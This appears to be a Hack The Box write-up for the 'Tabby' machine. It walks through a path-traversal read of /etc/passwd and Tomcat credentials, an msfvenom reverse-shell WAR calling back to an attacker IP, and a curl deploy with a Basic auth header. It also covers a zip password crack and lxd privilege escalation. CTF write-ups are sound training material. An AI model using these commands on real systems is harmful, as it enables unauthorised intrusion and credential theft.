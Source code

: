 ```yaml
---
permalink: /portfolio/htb/htb_linux/
author: Rick Theeuwes

defaults:
  # _pages
  - scope:
      path: ""
      type: pages
    values:
      layout: single
      author_profile: true
toc: true
---
```


# Linux Hack The Box Writeup for Tabby

## Enumeration

First, we run the old trusty nmap:

```bash
sudo nmap 10.10.10.194 -p 80,8080,22 -sC -sV -oN nmap.txt
```

Before this command I ran `nmap 10.10.10.194 -p-` to get the ports 22,80 and 8080. The flag `-sC` stands for default enum-scripts, and the `-sV` flag is for the version enumeration scripts. `-oN` states that all the text-results should be saved to the file named `nmap.txt`. 

With the result:

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Here we can see that this box has is running a ssh-server, a apache webserver and a tomcat instance. The versions are all latest, so there is nothing to find there. Let's take a look at the webpages.

We start at port 80, or the "normal" webpage.

![webpage](assets/images/htb/webpage.png)

It looks like a page from a hosting company. Let's fuzz it some more!

```bash
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.10.10.194/ -x html,php,txt
```

Here we use gobuster to find all the webpages on the server. The wordlist is dirb's common.txt, a good fuzzing list that isn't very long. Most pages can be found with this list. Then we state the website and last we state the file extensions it should look for.

This is the result (minus `.htaccess` pages).

```bash
/assets (Status: 301)
/favicon.ico (Status: 200)
/files (Status: 301)
/index.php (Status: 200)
/index.php (Status: 200)
/news.php (Status: 200)
/Readme.txt (Status: 200)
/server-status (Status: 403)
```

A `readme.txt` is often pretty interesting.

![readme.txt](assets/images/htb/readme.png)

Mmmmhh, bummer. No version numbers or update log. We are dealing with a `html/css` one-pager. Alright, let's look at the other pages. The only other non-default is news.php.

![new](assets/images/htb/news.png)

Okay, a page that apologises for a recent databreach, ironic. Let's take a better look at that url:

```url
http://10.10.10.194/news.php?file=statement
```

File equals statement? That looks like a arbitrary file read vulnerability to me. Let's test it with a file that everyone should be able to access:

```url
http://10.10.10.194/news.php?file=../../../../etc/passwd
```

![read](assets/images/htb/read.png)

Terrific, we can read files. I brought the request over to burp-suite for easier checking and checked whether there are any limits on the read, by checking the `news.php` file:

![burp](assets/images/htb/burp.png)

Alright, before we continue, let's see why we can read files. The php file get the GET-parameter named file. Then it puts `files/` in front of it and reads the file. Why can we read files outside of the folders files? `fopen` reads a file from a given path, without any checks or sanitation. If we back out of the folder `files` with `..` we are in the folder with `news.php`, probaly in the folder `/var/www/html` as this is the default path for Apache. So, if we keep going back we reach the system's root and we can go to any path from there. I choose to check `/etc/passwd` because this file is almost always there and readable for all users.

So we can read files without limits. Great! But we dont't really have a lot to check right now, let's check the tomcat page first.

![tomcat_main](assets/images/htb/tomcat_main.png)

Basic Tomcat installation, let's check the admin-pages.

![tomcat_login](assets/images/htb/tomcat_login.png)

Ofcourse, we need a password, and we don't have one, *yet*. We can abuse the file-read of the webpage to read the passwords of Tomcat!

It took some fuzzing, because the Tomcat config foler is not installed in the default folder, but we can read `/usr/share/tomcat9/etc/tomcat-users.xml`.

![tomcat-users](assets/images/htb/tomcat-users.png)

Alright, so now with this user we can log into Tomcat. However, looking at the roles of the user, we can only use the gui of admin. On the admin-page you can manage virtual hosts. Something we don't want or need. We need to access the manager system so we can upload a shell. We can, but not with the easy gui, we only have text-rights. This means we need to bring our shell only through a HTTP-request.

## Exploitation

First, we generate our payload, Tomcat uses war files to bring it's webpages online, so we make a war-shell using `msfvenom`

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.14 LPORT=8090 -f war > shell.war
```

Then we start our netcat listener to catch the shell once it is uploaded:

```bash
nc -lnvp
```

Then we upload the payload to the server using our new credentials.

![postman](assets/images/htb/postman.png)

Here I am using postman to upload the .war file, but we can als use a curl command (generated by postman):

```bash
curl --location --request PUT 'http://10.10.10.194:8080/manager/text/deploy?path=/shell&update=true' \
--header 'Authorization: Basic dG9tY2F0OiQzY3VyZVA0czV3MHJkMTIzIQ==' \
--form 'file=@/home/kali/htb/tabby/shell.war'
```

Then we just navigate to `http://10.10.10.194:8080/shell` and we catch a reverse shell!

I then always use some simple steps to upgrade the shell to a proper stty, so I can use taba and Ctrl+C.

![shell](assets/images/htb/shell.png)

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo
fg
enter 2x
export TERM=xterm
```

## Enumeration 2

After some searching and running [LinPeass](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) we find that there are some more interesting files in `/var/www/html/files`. A zip archive to be exact. It appears the be a back-up of some sort. After trying to extract it, it seems to be password-protected. I moved it over to my local machine and ran `fcrackzip` to find it's password.

```bash
fcrackzip --u -D -p '/usr/share/wordlists/rockyou.txt' out.zip
```

![crack](assets/images/htb/crack.png)

And the password is `admin@it`. The archive itself contains nothing of interest, but let's try the new password and the user `ash`.

![user](assets/images/htb/user.png)

## Exploitation 2

So, now let's get to root. I forgot to screenshot this, but the user ash is in the `lxd` group. Lxd is a technology similair to docker, and if you're in this group, you can spawn a root-shell. Using [this website](https://www.exploit-db.com/exploits/46978) I build the image on my local machine and transfered it to my victim. Then I executed this script, which creates the container with an unsafe flag and connects the file-systems. This way you have a root shell on the container, but you can also read files on the host. This way we get the root flag!

![root](assets/images/htb/root.png)

And thats it!